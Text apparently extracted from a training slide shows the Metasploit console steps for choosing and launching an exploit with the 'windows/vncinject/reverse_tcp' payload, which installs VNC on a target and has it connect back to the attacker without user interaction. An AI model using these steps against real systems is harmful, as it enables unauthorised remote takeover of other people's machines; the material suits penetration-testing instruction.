

Select a Payload
show payload: list all available and compatible payloads
set payload windows/vncinject/reverse_tcp: select one of the payloads
We will install VNC on the target and then have that target connect back to us.
In this example, we are sending an exploit to the target. If successfully executed, the exploit will call the “install vnc” payload and remotely install the software without any user interaction
show options and set options
Launch Exploit
exploit